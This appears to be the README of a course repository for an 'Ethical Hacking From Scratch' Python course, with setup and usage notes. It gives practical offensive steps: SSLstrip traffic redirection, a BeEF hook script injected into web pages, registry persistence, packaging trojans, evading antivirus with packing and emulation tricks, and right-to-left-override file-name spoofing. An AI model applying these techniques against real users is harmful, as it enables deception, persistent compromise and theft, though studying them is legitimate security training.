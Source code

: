 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

Since NetFilterQueue causes errors when installed regularly through pip on Python 3, we need to get it directly from git.
Use: `pip3 install -U git+https://github.com/kti/python-netfilterqueue` command to install it.
## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

### XSS (BeEF)
Few of the scripts use [Cross Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS).
One of them does that through MIDM attack and with `code_injector.py`. The other one in `vulnerability_scanner.py`.
To put it shortly, XSS is a type of attack that injects JavaScript code into user's web browser,
used while visiting targeted web server.
There are few ways of performing such attacks and I recommend further reading to anyone interested.
Just remember that while we use scanner to find vulnerabilities, BeEF is used to exploit them.

The code we want to inject into client web browser is:  
`<script src="http://<IP>:3000/hook.js"></script>`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

### Executable files

#### Converting scripts into executables
It's important to note we focus on creating Windows executables, since for both Linux and macOS,
the problem becomes trivial, since both operating systems have Python installed by default,
therefore allowing us to directly run Python scripts.
Another problem is that on Linux, obfuscating such executable file is almost impossible - the user has to grant
"executable" permissions through chmod anyway, meaning user must be pretty techie already.
The good way to send a trojan would be to just send a Python script that the user wants,
with our malicious software at the top of it. The user *still* could just check our source code though.
On macOS however, it's easier to deal with concealing the file since there are no file extensions displayed.  
Despite all those differences between systems, pyinstaller should work on each one of them anyway.
##### On Windows
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script (used for creating trojans), use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

##### On Linux
If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

#### Avoiding executables detection
To avoid detection of your .exe files by an Antivirus software, it's recommended to:  
* Use unique source code that possibly might not be yet indexed as malicious.  
* Use a behavior that will trick AV emulation of your code (i.e useless memory allocation, time delay)  

To check whether or not your program is detectable by antiviruses,
you can use services like [NoDistribute](https://nodistribute.com/ "Online virus scanner without results distribution.")
(doesn't share results with AVs' companies)
or [VirusTotal](https://www.virustotal.com/) (shares the results, thus contributing to better IT security).  
Additionally, you can compress your executables to make it even more obfuscated to antiviruses.
Use [UPX](https://github.com/upx/upx "UPX - The Ultimate Packer for eXecutables") for that purpose.  

In order to further our hiding measures, it's recommended to change the icon of our file.
Use [Iconfinder](https://www.iconfinder.com/) to find such icons
and [Easyicon](https://www.easyicon.net/language.en/covert/) to convert them appropriately.
Next, while using pyinstaller, make sure to add `--icon path\to\icon.ico` argument to package .exe with the given icon.  

Last but not least, spoofing the file extension. The trick is based on the character called "Right-to-left Override",
which changes the text orientation to start from right
(this functionality is used by few languages like Hebrew or Arabic).
You can find this character in Characters app on Kali Linux.
This trick can be used like this:  
```text
research-on-human-reflexes.exe
research-on-human-refl‮fdp.exe
```
Remember that such file needs to be compressed into a .zip file or similar,
since direct download will cause this character to be removed in the process.

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  
* It's best to find a good, extensive list of potential subdomain names, directories and files
on the web and use it instead of creating your own that most likely won't be as effective.  
* You **should** test your crawler on your own machine (such as Metasploit),
since such action against third-party server is most likely illegal in most of the countries.
* Remember to crawl websites responsibly.
Refer to `robots.txt` file, do not throttle the server you are crawling and preferably,
ask the owner of the server for permission. It's highly recommended to use Metasploitable machine for those purposes. 
* You can modify some stuff (such as max length of message on DVWA website) by using "Inspect Element" in your browser
and changing the values as you want.  
* To change default security level of DVWA (Metasploit), edit the `/var/www/dvwa/dvwa/includes/dvwaPage.inc.php` file.  
